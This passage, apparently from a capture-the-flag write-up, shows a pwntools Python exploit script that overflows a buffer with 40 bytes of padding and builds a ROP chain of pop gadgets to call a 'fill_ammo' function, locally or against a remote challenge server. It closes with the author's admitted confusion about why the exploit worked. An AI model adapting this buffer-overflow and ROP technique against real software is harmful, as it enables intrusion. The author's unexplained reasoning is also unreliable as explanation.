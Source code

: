 ```python
    # Padding to reach the return address
    padding = b"A" * 40
    
    # Construct the payload
    payload = padding
    payload += p64(pop_rdi) + p64(arg1)  # Set RDI
    payload += p64(pop_rsi) + p64(arg2)  # Set RSI
    payload += p64(pop_rdx) + p64(arg3)  # Set RDX
    payload += p64(fill_ammo_addr)  # Address of fill_ammo
    #payload = b"A" * 1000

    # Send the payload
    proc.sendline(payload)
    with open ('input2.txt', 'wb') as out:
        out.write(payload)


    print(f"Trying payload: {payload}")

    # Try to receive the response
    try:
        res = proc.recvall(timeout=2) 
        print(res.decode())
    except EOFError:
        print("Process exited before receiving all data.")


def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_rocket_blaster(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_rocket_blaster(proc)

def main():
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()
```

I didn't get why it happenned, so i tried to call the "open" function before jumping directly to the read part of the fill_ammo function.

But...
I got the flag ? I don't get why, since i only called "open" without any args, and that fixed my exploit...

Pwn is really something. I'll need to get back to this challenge once i know Pwn better...
